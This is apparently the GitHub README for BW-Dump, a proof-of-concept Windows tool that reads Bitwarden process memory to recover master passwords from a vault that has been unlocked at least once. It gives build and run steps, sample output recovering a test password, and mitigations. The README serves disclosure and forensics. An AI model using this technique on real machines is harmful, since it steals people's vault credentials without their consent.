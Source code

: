 # BW-Dump

A proof-of-concept tool that extracts the master password from a locked Bitwarden vault (must be unlocked at least once), only tested and supported on Windows 10 and 11.

## Update (07/02/23)
The tool now supports the latest version of Bitwarden Desktop (2023.1.1) on Windows 10 and 11.

![bitwarden-desktop-password-recovery-edit](https://user-images.githubusercontent.com/9108334/217886463-34460959-73b5-4f4a-bb14-504fe4ac0ded.png)

Bitwarden Desktop version info.

![bw-desktop-version](https://user-images.githubusercontent.com/9108334/217309342-42fa29d5-816b-40f5-9f10-bc5a457c7e44.png)


## Update (21/09/22)
A recent security update (not sure which one exactly) has fixed the issue on the web browser extension. However, on versions `v2022.6.0` and below it should still work.

## Demo
A short demo of using bw-dump with Microsoft Edge and the Bitwarden browser extension.

https://user-images.githubusercontent.com/9108334/191377244-f0e9a123-e4f0-43b0-90b5-697fc005ae7b.mov

## Building
**Warning: Windows Defender may report the compiled binary as malicious!**

To build on a system other than Windows:
```bash
env GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
```

Otherwise, run `go build -ldflags="-s -w"` which builds a stripped binary.

## Running
Simply build and execute the binary. It does NOT require admin rights. Make sure, a Chromium browser is running and the Bitwarden extension is installed. In addition, the vault needs to be unlocked at least once. After which, the master password will be stored in memory for a period of time. 

You can also pass the `-d` option to dump memory regions when a pattern is found. For each result, a filename `dump-pid-<PID>-<MEM-REGION>.hex` is created in the current working directory.

**Example Output**
```bash
PS C:\Users\Tester\dev\go\bw-dump> bw-dump.exe

 888 88b, Y8b Y8b Y888P    888 88e
 888 88P'  Y8b Y8b Y8P     888 888b  8888 8888 888 888 8e  888 88e 
 888 8K     Y8b Y8b Y  888 888 8888D 8888 8888 888 888 88b 888 888b
 888 88b,    Y8b Y8b       888 888P  Y888 888P 888 888 888 888 888P
 888 88P'     Y8P Y        888 88"    "88 88"  888 888 888 888 88" 
                                                           888     
            Created by @NazMarkuta at Red Maple            888     
    
BW-Dump is a Windows forensics tool that extracts Bitwarden master passwords from locked vaults
(must be unlocked at least once) by reading process memory using Windows API functions which
searches for magic byte patterns. The tool doesn't require any special (admin) permissions.

Now supports Bitwarden Desktop App (v2023.1.1) running on Windows 10 or 11. The tool (may) 
still support older Bitwarden Chromium extension versions (v2022.6.0) and below.

[+] Searching for processes...
[+] PID: 4228
[+] EXEName: Bitwarden.exe
[+] CMDLine: "C:\Users\Tester\AppData\Local\Programs\Bitwarden\Bitwarden.exe" --type=renderer --user-data-dir="C:\Users\Tester\AppData\Roaming\Bitwarden" --app-path="C:\Users\Tester\AppData\Local\Programs\Bitwarden\resources\app.asar" --no-sandbox --no-zygote --first-renderer-process --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=4 --time-ticks-at-unix-epoch=-1675782335888921 --launch-time-ticks=4007177473 --mojo-platform-channel-handle=2508 --field-trial-handle=1792,i,3673052334935287551,6849534636950916074,131072 --disable-features=SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand /prefetch:1

[+] Searching PID memory (4228)
[+] Found pattern at MemBaseAddr (0xb0800554000)
[+] Found password prefix bytes at offset (0xc121)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb0800a8c000)
[+] Found password prefix bytes at offset (0x1104)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb08014bc000)
[+] Found password prefix bytes at offset (0x62aa)
[+] Password recovered: "SUPER-SECURE-password8"

PS C:\Users\Tester\dev\go\bw-dump> 
```

## Is there a solution or workaround?
There are two ways (probably more) the master password can be trashed from memory:
1. Once locked, enter any random WRONG password. This should replace your password stored in memory.
2. Terminate the `Bitwarden.exe` process which Windows should do some garbage collection.

## What's next?
- Create a Volaility3 plugin that can extract master passwords from saved memory dumps.
